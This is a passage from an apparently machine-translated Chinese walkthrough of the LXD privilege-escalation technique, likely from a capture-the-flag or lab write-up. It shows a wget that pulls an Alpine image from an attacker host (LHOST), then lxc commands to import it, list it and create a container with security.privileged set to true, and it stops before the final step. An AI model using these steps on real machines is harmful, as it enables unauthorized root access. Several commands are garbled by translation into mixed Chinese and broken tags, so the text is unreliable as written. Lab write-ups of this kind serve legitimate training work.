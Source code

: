 在目标机器上，只需“wget”这个. tar.gz 文件，它就会像魔法一样工作。

> wget "http://LHOST/ <alpine_image.tar.gz>"</alpine_image.tar.gz>

![](img/2852ddddb88415e808240ed547529556.png)![](img/47e28072cc05672b3756b2a08541843f.png)

我们将按照 lxd-alpine-builder 的 github 页面中提供的说明发出命令。

> lxc 图像导入。/<alpine_image.tar.gz>——别名<image_name></image_name></alpine_image.tar.gz>

![](img/9d176fe33cd8c32f71fb42e359b71900.png)

我用别名作为 lxdimage 你可以使用你选择的名字。我们已经将图像导入 lxd 并获得了指纹散列。

太棒了！！让我们确认图像已经导入

> lxc 图像列表

![](img/3d8abf190c2211e55c9d2b877cc95f19.png)

既然已经创建了映像，我们将使用该映像通过以下命令创建一台机器:

> lxc init<image_name><machine_name>-c security . privileged = true</machine_name></image_name>

![](img/ce919564848ed780086028662b722d4c.png)
